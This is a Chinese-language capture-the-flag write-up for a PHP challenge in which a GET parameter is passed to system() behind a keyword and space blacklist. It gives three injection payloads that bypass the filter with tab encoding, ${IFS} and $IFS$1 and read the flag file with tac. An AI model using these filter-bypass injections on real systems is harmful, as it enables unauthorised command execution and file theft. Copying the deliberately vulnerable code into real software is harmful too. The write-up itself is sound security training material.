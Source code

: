 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

以及无输出





### 第一种

%09绕过空格

||绕过无输出

*匹配字符

```
?c=ls||
```

![image-20250403152004618](./assets/image-20250403152004618.png)

```
?c=tac%09fl*||
```

![image-20250403151946237](./assets/image-20250403151946237.png)





### 第二种

${IFS}绕过空格

```
?c=tac${IFS}fl*||
```

![image-20250403152048973](./assets/image-20250403152048973.png)





### 第三种

$IFS$1绕过空格

```
?c=tac$IFS$1fl*||
```

![image-20250403152131639](./assets/image-20250403152131639.png)